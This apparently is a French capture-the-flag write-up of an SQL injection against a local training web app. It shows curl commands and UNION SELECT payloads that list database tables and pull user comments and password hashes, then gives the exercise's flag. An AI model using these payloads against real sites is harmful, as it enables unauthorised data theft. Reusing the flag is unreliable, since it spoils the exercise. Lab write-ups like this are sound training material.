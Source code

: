 # SQL Injection

## Exploitation

Sur la page member, on se rend compte que l'on peut provoquer une erreur MySql en passant le caractère `'` dans la textbox.

```bash
curl -s 'http://192.168.99.100/?page=member&id=%27&Submit=Submit' | grep error
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1</pre>
```

On peut certainement faire une injection SQL.

On utilise cette query pour recuperer les tables et colonnes de la DB:

```sql
1 AND 1=2 UNION SELECT table_name, column_name FROM information_schema.columns
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+AND+1%3D2+UNION+SELECT+table_name%2C+column_name+FROM+information_schema.columns&Submit=Submit'
```

On se rend compte qu'il y a une table `user` avec les colonnes `user_id|town|planet|country|last_name|first_name|Commentaire|countersign`.

On utilise ces query pour récupérer des datas de la table `user`:

```sql
`1 UNION SELECT first_name,Commentaire from users`
`1 UNION SELECT first_name,countersign from users`
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+UNION+SELECT+first_name%2CCommentaire+from+users&Submit=Submit' | grep Flag

<br>First name: Flag<br>Surname : Decrypt this password -> then lower all the char. Sh256 on it and it's good !</pre><table width=50%>
```

```bash
curl 'http://192.168.99.100/?page=member&id=1+UNION+SELECT+first_name%2Ccountersign+from+users&Submit=Submit' | grep Flag

 <br>First name: Flag<br>Surname : 5ff9d0165b4f92b14994e5c685cdce28</pre><table width=50%>

```

En faisant un md5 reverse de `5ff9d0165b4f92b14994e5c685cdce28`, on obtient `FortyTwo`, donc en lower `fortytwo`

```bash
$> echo -n fortytwo | shasum -a 256
10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
```
